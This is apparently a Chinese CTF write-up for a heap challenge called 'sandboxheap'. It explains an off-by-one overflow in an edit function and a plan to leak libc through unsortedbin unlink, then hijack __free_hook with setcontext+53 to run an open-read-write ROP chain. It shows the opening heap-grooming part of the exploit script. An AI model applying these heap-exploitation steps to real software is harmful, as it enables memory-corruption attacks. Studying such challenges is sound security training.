

# sandboxheap
### 程序分析
此题保护全开，还开了沙箱保护，只能通过ROW getflag  
有show函数，有问题的地方是edit函数，存在off by one漏洞。  
  
  
  
由于多读了一字节，可以覆盖下一个chunk的preinuse位。  

### 思路分析
决定使用unsortedbin unlink泄露libc地址、堆地址，得到free_hook地址，在free_hook处写下setcontext+53地址,，这样能在调用free时更改寄存器（rbp，rip）的值，用栈迁移劫持程序运行堆上布置好的orw rop链。  

```
for i in range(7):
    add(i, 0x88)  
add(7, 0x88)
add(8, 0x88)
add(9, 0x88)
add(14,0x190)#打算放orw rop，使程序栈迁移到它
add(15,0x190)#打算放SigreturnFrame，改变freehook为setcontext+53后free它就能更改寄存器的值
add(10, 0x10)
for i in range(8):
    free(i)
overedit(8, b'1' * 0x80 + p64(0x120) , 0)
free(9)
add(11, 0x98)
add(12, 0x78)
```